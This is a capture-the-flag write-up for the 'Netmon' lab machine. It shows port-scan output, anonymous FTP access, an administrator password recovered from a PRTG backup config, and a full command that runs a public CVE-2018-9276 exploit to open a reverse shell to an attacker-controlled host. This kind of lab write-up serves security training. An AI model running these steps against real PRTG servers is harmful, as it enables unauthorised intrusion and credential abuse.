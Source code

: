 # Netmon Write-Up

Easy

Tags:
`Easy`
`Internal`
`Enumeration`
`FTP`
`Penetration Tester Level 1`
`Weak Authentication`
`CVE-2018-9276`
`CVE Exploitation`
`Public Vulnerabilities`
`Remote Code Execution`


## Intro

1. Use ftp anonymous to get user flag
2. Find username and password of Administrator from backup file
3. Exploit cve-2018-9276

## Exploit

### Port scanning

```
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
```

### Use ftp anonymous to get user flag

## Privilege Escalation

Find version of prtg in page source
```
prtgversion=18.1.37.13946
```

Search vulnerability => [PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/46527)

PoC: [cve-2018-9276 github](https://github.com/wildkindcc/CVE-2018-9276)

```
optional arguments:
  -h, --help            show this help message and exit
  -i HOST, --host HOST  IP address / Hostname of vulnerable PRTG server
  -p PORT, --port PORT  Port number
  --lhost LHOST         LHOST for MSFVENOM
  --lport LPORT         LPORT for MSFVENOM
  --user USER           Administrator Username
  --password PASSWORD   Administrator Password
  --https               Negotiate SSL connection to the server (Requires
                        socket to be compiled with SSL support)
```

Find username and password of Administrator

Get `PRTG Configuration.old.bak` file in `/ProgramData/Paessler/prtg network monitor` via ftp

```
<dbpassword>
    <!-- User: prtgadmin -->
    PrTg@dmin2018
</dbpassword>
```

`PrTg@dmin2018` is old password!

Run PoC with Sudo

```
sudo python CVE-2018-9276.py -i 10.10.10.152 -p 80 --lhost 10.10.16.5 --lport 4444 --user prtgadmin --password PrTg@dmin2019
```